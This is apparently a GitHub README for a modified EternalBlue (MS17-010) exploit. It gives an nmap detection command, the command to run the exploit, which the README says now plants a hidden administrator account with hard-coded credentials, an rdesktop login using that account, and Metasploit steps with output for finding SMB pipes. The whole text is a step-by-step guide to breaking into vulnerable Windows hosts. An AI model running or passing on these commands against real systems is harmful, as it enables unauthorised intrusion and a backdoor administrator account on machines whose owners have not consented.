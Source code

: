 # EternalBlue
I have changed the script for create a new user and add the user to administrator group

Detect the vulnerability
nmap --script smb-vuln-ms17-010 -p445 <target_ip>

How to run the exploit
python exploit.py <target_ip> <pipe_name>
once the user is created you can logged in to the system using rdesktop

 user    : John,
 password: fadf24as

rdesktop -u John -p fadf24as <target_ip>

## How to find the pipe

msfconsole
#use auxiliary/scanner/smb/pipe_auditor
#set rhosts <target_ip>
#run

Result
Pipes: \netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \lsass, \ntsvcs, \router, \scerpc, \srvsvc, \tapsrv, \wkssvc
